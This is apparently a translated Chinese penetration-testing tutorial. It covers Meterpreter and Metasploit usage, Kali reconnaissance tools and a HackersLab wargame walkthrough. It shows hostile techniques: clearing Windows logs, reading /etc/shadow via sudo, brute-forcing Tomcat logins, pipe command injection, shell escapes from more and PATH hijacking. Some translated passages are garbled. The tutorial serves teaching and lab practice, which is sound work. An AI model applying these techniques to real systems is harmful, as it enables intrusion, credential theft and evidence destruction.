- **Clear**：清除 Windows 操作系统的应用程序、系统和安全日志
- **Download**：下载目标文件（操作 Windows 时需要双反斜杠 `\\`）
- **Edit**：在目标上打开一个文件（使用 Vim）
- **Execute**：在目标上执行命令
- **Getuid**：显示 Meterpreter 正在使用的用户
- **Idletime**：显示目标机器的空闲时间
- **Ipconfig**：与 Windows 中的相同选项一样，它告诉我们目标的网络配置
- **Ls**：与 Linux 一样，它显示当前目录的文件
- **Migrate**：我们切换到另一个进程（如前所述）
- **Ps**：给我们活动进程的列表（如前所述）
- **Resource**：执行编写在文本文件中的 Meterpreter 命令

我们可以看到，我们列出了当前目录（桌面），显示了文件及其权限、大小、类型、最后修改日期和名称（目录 `.` 和 `..` 分别是当前目录和其父目录）。

在向我们显示文件后，它按照我们的指示转到了后台。

该命令执行文件搜索；请注意，在 Windows 系统中，我们必须使用双反斜杠（`\\`）。

- **Shell**：在目标上打开一个终端（如前所述）

在这种情况下，我们上传了一个无害的文本文件，但也可以发送恶意程序，例如病毒或木马。  
（木马是一种能够创建后门以赋予我们远程访问能力的程序。之所以这样称呼，是因为它的行为类似荷马《奥德赛》中的特洛伊木马）

# 那么，Meterpreter 是如何工作的？

Meterpreter 是一种负载，它与使用的漏洞利用程序并行工作，而不创建新进程，这使其更有效（也更隐蔽）。为此，它使用 DLL 注入和 Stagers。

其操作方式如下：

目标 攻击者  
(Meterpreter)

首先，漏洞利用程序和第一阶段被发送到目标。
在成功利用后，Stager 在目标中连接到一个任务，并尝试再次与 msfconsole 通信以建立连接。

一旦连接建立，就会发送第二阶段。如果你成功地执行了 DLL 注入，metasploit 会发送 Meterpreter DLL 以建立完整且稳定的通信通道。

最后，Meterpreter 使用 TLV 协议加载必要的扩展（例如 stdapi 或 priv）。

1. **DLL（动态链接库）**：在 Windows 操作系统中，进程通常加载动态链接库。DLL 是执行许多程序共用功能的文件，因此使用它旨在促进代码的模块化以及更好地利用系统资源（特别是内存）。

DLL 注入是一种允许你向其他进程注入代码的技术，这将强制正在运行的进程加载带有恶意代码的 DLL。由于它“隐藏”在常规进程中，安全程序更难检测到它。

2. **Stager**：建立攻击者和受害者之间的连接负载。它尽可能小且可靠，因此最终会使用几个大小不一的小型 Stager（metasploit 会根据情况选择合适的）。

3. **Stage**：Stager 的组件或模块。

4. **TLV 协议（Type Length Value，类型长度值）**：一种可以非常高效地表示信息的格式。为此使用三个字段：数据类型（基本上是一个标签）、长度（字段值）和值（我们的数据）。

Meterpreter 的额外目标：
**隐蔽性**
- Meterpreter 仅驻留在内存中（不在磁盘上留下痕迹）
- 不创建新进程（注入到已活动的进程中）
- 我们的机器和目标之间的通信是加密的

**强度**
- Meterpreter 使用通信通道
- TLV 协议限制很少

**可扩展性**
你可以轻松添加扩展，无需重新构建/重新编译
- Rex：大多数任务的基础库（基本任务、插件管理、协议等）
- MsfCore：提供“基本”API，定义 Metasploit 框架
- MsfBase：提供“友好”API，并与其交互（通常通过接口），简化了在框架中的使用

**模块**
- 辅助模块允许外部工具（如漏洞扫描器、嗅探器等……）与 Metasploit 框架进行交互。
- 编码器模块：提供用于编码和混淆（尝试使其不可理解）我们在漏洞利用成功后将使用的负载的算法。
- 漏洞利用模块：这是框架中所有可用的漏洞利用程序所在的位置，用于获取访问不同操作系统的权限。
- 负载模块：提供大量可在漏洞利用成功后远程执行的代码。
- Post 模块：提供后渗透阶段的功能。
- Nops 模块：确保负载的连接和数据流量保持恒定

## 第 5 章 - Kali Linux 入门

Kali Linux 是著名的 Linux BackTrack 发行版的新版本，用于执行安全审计和渗透测试。Kali Linux 是基于 GNU/Linux Debian 的平台，是对 BackTrack 的完整重构，包含大量用于捕获信息、识别漏洞、利用漏洞、提升权限和掩盖痕迹的工具。

本章提供了使用 Kali Linux 中包含的最受欢迎工具的出色实践指南，涵盖了渗透测试的基础知识。本文也是深入该领域的专业人士以及初学者的绝佳知识来源。

## Kali Linux 特性

Kali Linux 是对 BackTrack Linux 的完整重构，并完全符合 Debian 开发标准。一套全新的基础设施已投入使用，所有工具都经过检查和打包，现在使用 Git 作为版本控制系统（VCS）。

- 超过 300 个渗透测试工具
- 免费，且永远免费
- 开源 Git 代码树
- 符合 FHS（文件系统层次结构标准）
- 对无线设备的广泛支持
- 用于注入的内核补丁。
- 安全的开发环境
- 使用 GPG 签名打包的软件包和仓库
- 多种语言支持
- 完全可定制
- 支持 ARMEL 和 ARMHF

## 获取 Kali Linux

Kali Linux 可以下载不同架构的版本，如 i386、amd64 以及 armel、armhf。对于 i386、i686 和 amd64，可以下载 ISO 镜像格式或用于 VMware 的虚拟机。也可以通过直接下载或通过 Torrent 获取。


## 第 6 章 - Kali Linux 安装

Kali Linux 可以像任何其他 GNU/Linux 发行版一样安装到硬盘上。它也可以安装并配置为与 Windows 操作系统进行双启动。同样，它可以安装到 USB 驱动器上，或者安装在加密磁盘上。

建议查阅有关 Kali Linux 各种安装选项的详细信息，访问以下页面：[http://docs.kali.org/category/installation](http://docs.kali.org/category/installation)

## 更改 Root 密码

作为一种良好的安全实践，建议更改分配给 root 用户的默认密码。这将使恶意用户难以使用此默认密码访问系统。

```
# passwd root
Enter new UNIX password:
Retype new UNIX password:
```

> [\*] 只要输入密码，它就不会显示，并且必须输入两次。

## 启动网络服务

Kali Linux 的网络服务包括 HTTP、Metasploit、MySQL、OpenVAS 和 SSH。

如果需要启动 HTTP 服务，必须执行以下命令：

```
#/etc/init.d/apache2 start
```

这些服务也可以通过菜单启动和停止：应用程序 -> Kali Linux -> 系统服务。

Kali Linux 提供了关于其多个方面和功能特性的官方文档。这些文档正在不断编写和更新中。可以在以下页面找到这些文档：http://docs.kali.org/

## Kali Linux 工具

Kali Linux 包含大量来自不同来源、与安全及取证领域相关的工具。

所有这些工具的列表及其快速参考指南提供在以下网站：http://tools.kali.org/

## Shell 脚本编写

Shell Bash 允许你自动化操作或执行消耗大量时间的重复性任务。在以下练习中，将使用一个发布代理列表的网站。

使用 bash shell 命令，代理的 IP 地址和端口将被提取到一个文件中。

```
# wget http://www.us-proxy.org/
# grep "<tr> <td>" index.html | cut -d ">" -f 3,5 | cut -d "<" -f 1,2 | sed 's / \\/ td> /: / g'
```

## 捕获信息

此阶段旨在尽可能多地收集关于目标的信息，例如可能的用户名、IP 地址、名称服务器以及其他相关信息。在此阶段中，获取的每一份信息都很重要，不应被低估。请记住，收集更多的信息将为成功的攻击产生更大的概率。

信息捕获过程可以以两种方式划分——主动信息捕获和被动信息捕获。在第一种方式中，通过向目标网络发送流量来收集信息，例如执行 ICMP ping 和 TCP / UDP 端口扫描。在第二种情况下，使用第三方服务或来源（如 Google、Bing 或社交网络）获取目标网络的信息。

## 公共来源

互联网上有各种公共资源可用于收集关于目标的信息。使用此类资源的优势在于不会生成直接指向目标的流量，从而最小化被检测到的概率。

### 捕获文档

- "-dnsserver" 选项定义了使用特定的 DNS 服务器进行主机名查询。
- "-dns" 选项定义了要扫描的域名。
- "-wordlist" 选项定义了用于发现子域名的单词列表。
- "-file" 选项定义了输出文件。

[\*] dnseanum 工具包含一个单词列表“dns.txt”，它可与任何需要它的其他工具一起使用，正如这里所示。

### Dmitry

DMitry 是一个针对 Linux 的在线命令行程序，允许你尽可能多地捕获有关主机的信息，从简单的 Whois 查询到运行时间报告或端口扫描。

```
# dmitry
# dmitry -w -e -n -s [Domain] -o /tmp/resultado_dmitry.txt
```

- "-w" 选项允许对主机的 IP 地址进行 whois 查询。
- "-e" 选项允许搜索所有可能的电子邮件地址。
- "-n" 选项尝试从 Netcraft 获取有关主机的信息。
- "-s" 选项允许搜索可能的子域名。
- "-o" 选项允许定义用于保存结果的文件名。

虽然 dmitry 中有一个选项允许从 Netcraft 获取有关主机域名的信息，但获取这些信息是不可行的。这些信息可以直接从 Netcraft 网站获取：

[http://searchdns.netcraft.com](http://searchdns.netcraft.com)

## 路由信息 Traceroute

http://linux.die.net/man/8/traceroute

Traceroute 跟踪数据包在 IP 网络上到达指定主机所经过的路径。这利用 IP 协议中的 "TTL" 字段，并尝试通过路由中的每个网关从目标主机引发 ICMP TIME_EXCEEDED 响应。

GNU / Linux 系统上的 traceroute 版本默认使用 UDP 数据包。

```
# traceroute --help
# traceroute [IP Address]
```

## Tctraceroute

http://linux.die.net/man/1/tctraceroute

tctraceroute 使用 TCP 数据包跟踪到目标主机的路径。

```
# tctraceroute --help
# tctraceroute [IP Address]
```

使用搜索引擎

## Theharvester

https://code.google.com/p/theharvester/

```
# nping -h
# nping [IP Address]
```

Nping 默认使用 ICMP 协议。如果目标主机正在阻止此协议，可以使用 TCP 测试模式。

```
# nping --tcp [IP Address]
```

"--tcp" 选项是一种允许用户创建和发送任何类型 TCP 数据包的 模式。这些数据包被嵌入在也可以调整的 IP 数据包中发送。

## 识别操作系统

此过程试图确定运行在活动目标上的操作系统，以了解尝试渗透的操作系统类型和版本。

```
nmap
http://nmap.org/
# nmap -O [IP Address]
```

## 服务列表

确定每个特定端口上正在运行的服务，可以确保在目标网络上进行令人满意的渗透测试。你还可以消除在操作系统指纹识别过程中产生的任何疑虑。

```
Nmap
http://nmap.org/
# nmap -sV [IP Address]
```

nmap 的 “-sV” 选项启用了版本检测。在使用 nmap 提供的某些扫描发现 TCP 和 UDP 端口后，版本检测会询问这些端口，以确定更多关于当前运行内容的信息。

数据库包含用于查询各种服务的测试和匹配表达式，以识别和解释响应。Nmap 试图确定服务协议、应用程序名称、版本号、主机名和设备类型。

## 利用目标

在发现了主机或目标网络中的漏洞之后，现在是时候尝试利用它们了。利用阶段有时标志着渗透测试过程的结束，但这取决于合同，因为有些情况下你需要更深入地进入目标网络，目的是在整个网络中扩展攻击并获取所有可能的权限。

## 包含 Exploit 的存储库

每天都会报告各种类型的漏洞，但目前只有其中一小部分被公开或免费发布。

可以从维护存储库的网站下载其中一些 "exploits"。

## Metasploit 框架控制台

http://www.metasploit.com/

Metasploit 控制台 (msfconsole) 主要用于管理 Metasploit 数据库、管理会话，以及配置和执行 Metasploit 模块。其基本目的是利用。该工具允许你连接到目标，以便针对它执行 exploits。

由于 Metasploit 框架使用 PostgreSQL 作为其数据库，首先必须启动它，然后启动 Metasploit 框架控制台。

```
# service postgresql start
```

要验证服务是否正确启动，必须执行以下命令。

```
# netstat -tna | grep 5432
```

要显示 Metasploit 框架帮助。

```
# msfconsole -h
# msfconsole
```

一些用于与控制台交互的有用命令是：

- msf> help
- msf> search [模块名称]
- msf> use [模块名称]
- msf> set [选项名称] [模块名称]
- msf> exploit
- msf> run
- msf> exit

以下示例详细介绍了辅助模块 "SMB 用户枚举 (SAM EnumUsers)" 的使用。


# Metasploit 框架的 CLI

Metasploit CLI（msfcli）是允许 Metasploit 框架执行其任务的一个接口。这是一个学习如何管理 Metasploit 框架或评估/编写新漏洞利用工具的良好接口。如果需要将其用于脚本中对任务进行自动化处理，它也非常有用。

```
# msfcli -h
# msfcli
# msfcli [Exploit Route] [Option = Value]
```

以下示例将使用名为“MySQL 服务器版本枚举”的辅助模块，该模块可用于枚举 MySQL 服务器的版本。

在以下示例中，将在 Metasploit 框架中使用名为“Tomcat 应用管理器登录工具”的辅助模块，该模块将简单地尝试使用特定的用户和密码身份验证到 Tomcat 应用管理器实例。

```
msf> search tomcat
msf> use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary (tomcat_mgr_login)> show options
msf auxiliary (tomcat_mgr_login)> set RHOSTS [Objective IP]
msf auxiliary (tomcat_mgr_login)> set RPORT 8180
msf auxiliary (tomcat_mgr_login)> set USER_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
msf auxiliary (tomcat_mgr_login)> set PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
msf auxiliary (tomcat_mgr_login)> exploit
msf auxiliary (tomcat_mgr_login)> back
Using common usernames
```

下面展示的演示内容旨在加强课程中介绍的一些工具的使用。这些演示重点针对漏洞利用和后渗透阶段，即攻击者在利用漏洞获取系统访问权限后所执行的过程。

### 使用本地漏洞利用进行权限提升的演示。

```
# ssh -l msfadmin 192.168.159.129
```

进入系统后，我们接着使用 "sudo" 命令。

```
# sudo cat /etc/shadow
# sudo passwd root
```

输入一个新密码，然后执行：

```
# su -
# id
```

后渗透阶段将与第一个示例中详述的阶段相似。

## 第 7 章 – 解决等级问题

## 等级 0 问题

**登录：level08 密码：guest 学习：等级 0 介绍**

由于极其简单，其目的仅是帮助你理解在进入下一等级所需的一些概念。我将借此空间进行解释。我们在 level0 的主要目标，正如其他所有等级一样，是获取下一等级的密码。这可以通过运行 `bin` 目录中的 `pass` 命令来完成。尝试连接到 HackersLab 并输入 `pass`。会出现一个屏幕，它会展示并告诉你 level0 的密码。那么，要获取 level1 的密码，我必须以该用户身份登录吗？这是如何可能的？

还有另一种方法。在每个等级，都有一个文件的 UID（用户标识号）高于你的，且 GID（相同组标识号）也与你的相同。任务是：如何探索该文件，以便通过它执行 `pass` 命令并获取下一个密码？现在如果我们通过它执行，而它拥有更高的用户权限（UID），我们的系统将“认为”我们是那个其他用户。困难吗？让我们看一个例子。

假设我们连接到 HackersLab。让我们创建一个虚构的 level0，仅作为测试：

```
Login: level0
Password: [level0]
[level0 @ level0] $ whoami
level0
[level0 @ level0] $ id
UID=2000 GID=2000 OTHER ANY=9999
```

到目前为止，我们取得了什么成果？我们成功登录到 level0，输入了 `whoami` 命令，它通知我们用户名是 level0，以及 `id` 命令，它为我们提供了用户 ID（UID）、组 ID（GID）以及其他我们不需要的事情。

现在我让系统搜索那些 UID 高于我们的文件。例如，如果我们的 UID 是 2000，那么我想搜索 UID 为 2001（level1）的文件。

```
[level0 @ level0] $ find / -uid 2001 -gid 2000
/tmp/suzuki: Permission Denied
/bin/joy: Permission Denied
```

权限被拒绝
/etc/test
/usr/local/yu: 权限被拒绝
/var/shenmue: 权限被拒绝。

我要求系统向我展示所有允许访问的文件，这些文件属于用户 level1（其 UID 为 2001）且属于组 level0（GID 为 2000）。为什么要查找 GID？很简单。文件需要属于我们的组，这样我们才能操作它。这一点稍后会更清晰。我们只找到了 `/etc/test` 文件。其他权限被拒绝的都是垃圾。

那么，如何只列出我们想要的文件？

```
[level0 @ level0]$ find / -uid 2001 --gid 2000 2>/dev/null
/etc/test
```

重新执行命令时，我加入了字符串 `2> /dev/null`，这告诉系统“将任何不必要的信息（2）发送到（>）垃圾桶（/dev/null）”。因此，我们只得到了预期的结果。所以，让我们列出文件内部的内容。

```
[level0 @ level0]$ ls -la /etc/test
-rwxr-x--- 1 level1 level0 10876 Mar 8 06:24 test
```

根据信息，我们确认了我们要找的内容。这是一个由用户 level1 创建的文件，属于组 level0。创建该用户的用户拥有完全权限，组用户仅允许执行，其他用户甚至连执行都不允许。纯粹出于好奇，我可以用用户名而不是 UID 来浏览文件吗？当然可以！

完美。我们以相同的方式找到了文件。我们如何仅运行该文件，让我们试试：

```
[level0 @ level0] $ cd /etc
[level0 @ level0 etc]$ ./test
Error: file not found.
```

发生了一个错误。这是因为我们的可执行文件不在 PATH 中。`PATH` 是一个变量，指示哪些目录是你所在目录中可以运行的文件。因此，我们只能将“./”（点和斜杠）放在可执行文件前面。这样，我们必然会在不依赖 PATH 的情况下运行它。

```
[level0 @ level0 etc] $ ./test
/bin/pass
```

恭喜……level1 的密码是 xxxxx。准备好了！在我们的假设示例中，test 文件运行了 pass（记住，那个给我们密码的命令？）。但它给我们的是 level1 的密码而不是 0 的？这是因为 test 拥有 level1 的用户权限，所以我们欺骗了 pass 命令，它给了我们要的奖品。在每个等级，这都必须以不同的方式完成。

如果你还没有理解这一点，我们现在将回答问题，在实践部分一步一步地讲解，然后，我们将通过 telnet 连接到 drill.hackerslab.org：

```
Login: level0
Password: guest
Connecting to level0.
```

我们进入了。我输入了 `whoami` 和 `id` 命令来查看用户名和标识号（IDs）。这不需要这样做；我只是为了方便你理解才做的。我们现在准备好搜索目标文件了。我输入了 `find / -user level1 -group level0 2> /dev/null` 来查找由 level1 创建且组为 level0 的文件。系统找到了一些文件，包括 `/dev/.hi`。Dev 意味着设备。遵循等级提示，我将先尝试这个文件。我列出了信息，看到它对 level0 组的用户具有执行权限。所以让我们运行它，看看会发生什么。我输入了 `cd /dev` 以访问目标文件所在的目录。我输入了 `.hi`。系统返回错误，说未找到命令。这意味着该命令不在 PATH 中。没问题……我们在命令前加上“./”并执行它：`./.hi`。显然，什么也没发生。

让我们检查一下：让我们试试 `id` 命令。哦！一个惊喜！出现了一个新的 ID，带有 EUID 编号 2001（level1）。这个 EUID 之前并不存在……它是被程序赋予我们的。然后我们将尝试 `whoami` 命令，只是为了解除疑惑。看！命令通知我们我们是 level1（或者至少我们拥有 level1 的权限）。`.hi` 是如何做到这一点的？很简单，它是一个后门（资金或特洛伊木马）。当我们运行它的瞬间，它执行了 `/bin/sh` 命令，并在第一个 shell（命令会话）内部创建了另一个 shell，但使用的是你的权限。这意味着，如果我们尝试输入 `pass` 命令（它返回等级密码），现在我们将获得……下一等级的密码！！！那么，level1 的密码就是 newworld。


## Level 1 题目

登录名：level18
密码：newworld
学习内容：外部命令与管道符的执行。

本阶段所需掌握的核心知识是了解如何利用那些执行外部命令的程序。如果该程序的有效用户 ID（EUID）高于你的，这将带来严重的安全隐患。为了进行演示，让我们参考 level0 的例子。我将创建一个虚拟的 level1，并使用一些虚拟文件作为测试。

```text
Login: level18
[level1 @ level1] $ find -user level2 -group level1 2> /dev/null
/usr/bin/list
[level1 @ level1] $ cd /usr/bin
[level1 @ level1 bin] $ ./list
Enter a file: /usr/bin/list
-rwxr-xr-x  level2 level1 876 Jun 23 13:12 /usr/bin/list
```

让我们仔细看看刚才的操作。我们本应登录到 HackersLab 系统，然后查找拥有 level2 UID 和 Level1 GID 的文件（如果你仍然不明白为什么要这样搜索，请重读 level0）。我们找到了文件 `/usr/bin/list`。我尝试运行它并成功了。它要求我输入任意文件，并告知我同样的信息，正如我们之前使用的那样，只是为了看看会发生什么（实际上可以是任何文件）。随后，list 程序返回了关于我提供的文件的信息。问题就出在这里。从内部执行 list 的命令实际上是 `ls -l`，用于显示文件信息。它在系统上执行了以下操作：

```text
[level1 @ level1] $ ls -la /usr/bin/list
-rwxr-xr-x  level2 level1 876 Jun 23 13:12 /usr/bin/list
```

但它是以高于我们的权限执行的（忘了你的创造性用户和 ID 是 level2 吗???）。既然它外部执行 ls，我们该如何添加另一个命令呢？最简单的方法是使用管道符（`|`），我们在命令章节中见过它。它允许你输入另一个待执行的命令。但我们要在哪里做呢？让我们再次运行 list：

```text
[level1 @ level1 bin] $ ./list
Enter a file: /usr/bin/list
```

这里就是秘密所在。除了仅仅输入文件的 PATH，我们能否在前面加上管道符和某些命令？就像这样：

`Enter a file: /usr/bin/list | pass`

就是这样！如果我们的理论正确，它将运行 `ls`，列出我们的程序 `/usr/bin/list`，然后立即运行提供密码的程序。现在完成：

```text
[level1 @ level1 bin] $ ./list
Enter a file: /usr/bin/list | pass
-rwxr-xr-x  level2 level1 876 Jun 23 13:12 /usr/bin/list
The password for level2 is ...
```

准备就绪！我们获得了新的密码。现在让我们进入真实的 walkthrough。

### 分步操作
- 登录到 HackersLab 并使用 level1 密码登录。
- 首先要做（已经成了经典套路）是输入命令 `find / -user level2 -group level1 2>/dev/null` 来查找目标文件。
- 我们找到了两个文件：`/proc/20840` 和 `/usr/bin/amos`。
- 但等等……Amos 是一位先知的名字（叮叮，叮叮……我们发现为什么这个提示级别是这样的了）。
- 让我们检查一下 amos 文件，然后：

通过查看来自管理员的信息，我们发现再次拥有执行该文件的组权限（`x`）。我们成功运行了它，无需在前面加“./”（斜杠），这意味着它在 PATH 中。在我们的学习会话模拟中这是如何发生的？程序要求我们输入任意文件的 PATH。我们输入了当前正在运行的文件（如前所述，可以是任何文件）。它通知我们该文件是可执行的。

回到本阶段的问题，我们看到 Matthew 必须使用 file 命令来生成 amos 程序。那么，程序是否在外部运行文件归档？是的？让我们试一试！是的！！示例在外部运行了文件。让我们尝试运行它，并制作一个管道来尝试获取你的权限。所以让我们以我们学习的方式进行：我们输入 `/usr/bin/amos` 的信息，`|`（管道符）以及 `pass` 命令。因此，程序将处理文件 `/usr/bin/amos|pass`。结果如何？level2 的密码。又赢了一个阶段。

## Level 2 题目

Kevin，一位 BBS 程序员，希望在你的主页上添加一个警报，以便你的成员每次登录时都能看到你的帖子。不幸的是，该消息有多页，且他的成员无法阅读。结果，他日夜挠头，试图找到一个解决方案。最后，他考虑使用 more 命令来解决这个问题。然而，由于安全问题，这种方法是有风险的。

提示：无须多言！

**登录名：level2**
**密码：DoItYourself**
**学习内容：Shell 与子 Shell**

系统的 Shell 不过就是执行输入的 Shell 解释器命令。它是一个文本模式屏幕，你可以通过系统命令与之交互。例如在 DOS 系统中，命令解释器是 `command.com` 文件。在 Windows NT 及兼容系统中，它是 `cmd.exe`。你可以在 NT 上通过进入 开始/运行 并输入 `cmd` 来证明这一点。将会打开一个命令屏幕。

为什么要用 Windows 作为例子？为什么 Linux 没有接近的不同之处。它有几种 shell 类型（sh, csh, ksh, bash2 ...），当在图形窗口管理器（如 GNOME 或 KDE）内运行时，会给你一个另一个小的文本模式窗口，即命令提示符老板。结束它很简单。只需关闭它即可。当你在窗口管理器内运行 shell 时，你将在后台运行。这是一个重要的概念，因为我们要稍后大量使用它。我还可以在一个 shell 内运行另一个 shell。这被称为子 shell。下面是一个例子：

```text
[my system] $ ls
....
rohtspasswd.old
[my system] $ /bin/sh
bash $
```

在上面的例子中，我在一个 shell（展示我拼写的系统）中，然后移动到另一个 shell，sh（或简单的 bash）。如果我输入 exit 命令，我会回到上一个 shell。这证明了 sh 是一个子 shell，因为它是在最初运行的 shell 内部运行的。

```text
bash $ exit
[my system] $
```

这也可以通过程序完成。许多在 shell 上运行的文本模式程序（如 pine, vi 和其他）允许你从内部运行子 shell。甚至像 more 这样的命令也允许。这将在本级别的实践部分中变得清晰。

### 分步操作
- 我们连接到 HackersLab 并尝试列出具有 level3 用户权限和 level2 组权限的文件。
- 我们找到了 alert 文件。大概是从本级别描述中之前创建的那个。
- 下一步：列出它。执行它。让我们做。

我们运行了 alert 文件，发现 Kevin 使用 more 命令在你的文件屏幕之间暂停。如果我们按下 Enter，Page Down 和其他一些键，文件将继续缓慢显示。相反，我们将执行以下操作：我们在 `--More--` 上写下命令 `! /bin/sh`。这意味着告诉系统：亲爱的 Linux，运行（`!`）bin 目录（`/bin/sh`）内的命令解释器 sh。我们跌入了 shell。因为谁正在运行 shell 是一个具有 level3 权限的程序，我们用 `whoami` 测试，发现已经是 level3 就绪了。运行 `pass`，就这样，我们到达 level3！

## Level 3 题目

登录名：level3
密码：hackerproof
学习内容：PATH 和 IFS HackersLab

Level 3 和 Level 4 几乎是一样的，在这两个级别中，你需要理解 PATH、IFS 和 export 的概念。这些级别在挑战的早期部分确实非常有趣且困难（你稍后会发现 level5 和 6 要容易得多）。虽然这本书侧重于如何破解 Linux 系统，但我将简要解释 PATH。学习这个术语使理解其他术语更容易。首先，让我们进入概念：

PATH 是目录的绝对路径，系统总是在这些目录中查找要运行的文件。例如，在系统根目录中输入命令 `ls`、`dir`、`date` 或任何其他命令，操作系统将按这些命令搜索 PATH 目录并执行它们。如果没有，它将返回错误。复杂吗？没那么复杂。

让我们看一个简单的例子。在上面的 DOS 例子中，我列出了名为 test director 的目录中的数据。我发现有一个名为 `app.exe` 的程序。然后我尝试从根目录运行 app。我收到一个错误，说命令未被识别（未找到）。因此，我修改了 PATH 并将其指向 app 所在的 test director。只需使用 `PATH = C:\directory\test`。我再次尝试运行 app，瞧！它正常运行了。当然，现在命令在系统搜索的 PATH 内部。

好的，但这与黑客挑战有什么关系？全部。想象一个 Windows 应用程序外部调用 `send NET.EXE`（控制 NetBIOS 协议的命令，可能连接到共享、发送消息、启用用户等）。如果我自己创建了另一个同名文件（`NET.EXE`），把它放在 test director 并设置 PATH，会发生什么？`NET` 将由个人程序正常调用，但我的 `NET`，可能是一个入侵程序，如后门（或木马）。

回到 Linux，那么想象 Steven 的程序只是写入日期。这很容易，只需在目录中创建一个伪造版本


## 第4关题目
### 用户名: level4 密码: AreUReady?
#### 学习内容：更多的推理与 PATH。

第4关与第三关非常相似。我之前在第3关研究中展示的所有内容在此处都适用。但存在一个重大差异。我如何知道这一点？根据题目描述，凯文在你的游戏中只添加了一行代码。这行代码可以是任何东西……屏幕上的信息、注释，或者正在执行的外部命令。你唯一知道的方法是：运行游戏并尝试识别它正在执行的某个命令（它是否列出目录？显示日期？时间？）。你可以使用 `strace` 等命令来尝试找出外部引用。但最简单的方法是尝试运行游戏并找出答案。我所指的重大差异在于：在第3关，你知道哪个应该冒充 `date` 命令，但在这一关，除了知道使用哪个命令外，你不确定这是否是正确的流程。只有通过分析才能知道。让我们一步步来，检查该流程应该是什么样子。

我们以 level4 身份连接到 HackersLab，并寻找具有 level5 用户权限的文件。我们找到了我们的游戏，即木马文件，它位于 `/usr/games` 目录中。让我们运行它看看会发生什么。游戏会提示你选择你想玩的难度速度。该游戏是一种俄罗斯方块。我们在这里观察到一个有趣的现象是，游戏启动时清除了屏幕。并且在你游玩过程中它也多次清除屏幕。那么，是清除屏幕的 `clear` 命令在外部运行吗？让我们沿着这个推理进行，并尝试像第3关那样继续操作。

同样，我们将 `PATH` 导出到 `/home/level4/tmp` 目录（我们唯一可以记录的地方）。我们还向系统导出了 `IFS`。我们的记录目录中有一个名为 `clear` 的文件，我们在其中使用了 `/bin/pass` 命令。如果这是正确的，那么当我们运行 `trojka` 时，它会具有与过去关卡相同的效果，但现在通过执行程序，我们已经清除了那个恶意的程序。所以……平安夜，神圣之夜！然后前往第5关！

## 第5关题目
### 用户名: level5 密码: Silent night, holy night!
#### 学习内容：二进制文件中的字符串。

首先，什么是字符串？如大学所学，它是字符分组。在通俗语言中，它是单词、句子或文本。每当我们要编程时，我们需要使用字符串彼此以及用户进行沟通。以下是不同语言中面向用户的字符串示例：

- Pascal: `writeln('Enter a number');`
- C++: `cout >> "Enter a number \n";`

字符串也用于对单词和短语进行简单的比较。

我知道所有程序员都厌倦了看到这些，但对于非程序员来说，基础解释很重要，以免他们感到太困惑。一个比较的示例：

```
Test Program;
var x: string;
begin
  writeln('Enter your password: ');
  readln(x);
  if x = 'binladen' then
    begin
      writeln('Correct Password');
    end
  else
    begin
      writeln('Incorrect password');
    end;
end;
```

在这个 Pascal 小程序中，我首先向用户发送一段请求密码的文本。我读取包含密码的变量，然后进行比较：如果字符串（密码）与 `binladen` 相同，我写入密码正确，否则，输入密码错误。这对任何人来说都不是什么新鲜事。在这里，对我们来说有趣的部分将是编译后的程序，而不是源代码。当我们不使用加密功能或可执行文件时，编译后的程序会保留大多数我们的字符串供查看。你可以使用十六进制编辑器看到这一点。但有一种更简单的方法，即 `strings` 命令，它扫描任何二进制文件（不仅仅是可执行文件）并显示找到的字符串。我将在 DOS 中编译之前显示的代码，并逐步展示问题。我编写了程序并进行了测试。

我输入 `saddamhussein` 作为密码。它返回密码错误，所以我用默认密码 `binladen` 进行测试。程序返回密码正确。很快之后，我将输入 `strings` 命令 `progtest.exe` 来尝试找到字符串 `binladen`。

噢…… 快速查看 `strings` 命令生成的结果，我们发现了四行有趣的内容：

- 输入你的密码：
- bin Laden
- 密码正确

因此，我们可以不使用加密功能或可执行文件中的任何压缩，就能找出简单的密码。我们在 DOS 中看到了这一点，但在 Linux 中呢？所以，让我们一步步来。

我们以 level5 身份连接到 HackersLab。我们正在寻找目标文件，即题目中提到的新修改的后门位置。我们找到了 `/lib/security/pam_auth.so`（目录 `/lib/security` 中的文件 `pam_auth.so`）。我列出了你的信息，并且再次被允许执行。那就让我们执行吧。

我们运行了 `pam_auth.so`，它询问密码，我们放入任何字符串词，它返回密码错误。让我们首先检查你的目录是否有更多有趣的文件。有很多文件。如果我们在每个文件中都尝试 `strings` 命令，会浪费大量时间。所以，我们将尝试主要的那个，`pam_auth.so`。我们会发现什么有趣的东西吗？我们找到了几个可能的密码：`abcd1234`, `loveyou!`, `flr1234`，我们将不得不逐一将这些作为第6关密码进行尝试。还有两个短语可能是密码：

- what the hell are you thinking?
- Best of The Best Hackerslab

嗯，这个“Best of The Best Hackerslab”非常可疑。让我们先试试它。

“Best of The Best Hackerslab”是密码。直接到达顶级层级。如果你想，代替直接以 level6 登录并输入密码，可以使用正确的密码通过后来再次让约翰生气！


## 第 6 关题目

登录名: level6  
密码: Best of The Best  
学习内容: 端口扫描 (Port Scan)。

这是 HackersLab 中最简单的关卡之一。它适合轻松时刻。它侧重于以下事实：系统中有一扇用于访问的第二扇“门”。这些门是什么？每当您连接到系统时，都会创建一个“套接字” (Socket)。套接字不过就是 IP + 端口的组合服务门。这使得同一个互联网地址可以运行多个服务，如 Web 服务器、FTP、SMTP、POP 等。

一些常见的端口号：
- 21 - FTP
- 22 - SSH
- 23 - TELNET
- 25 - SMTP
- 79 - FINGER
- 80 - WWW
- 3128 - PROXY
- 6000 – XWINDOWS

SERVER，使用 TCP 和 UDP 协议的常见端口。

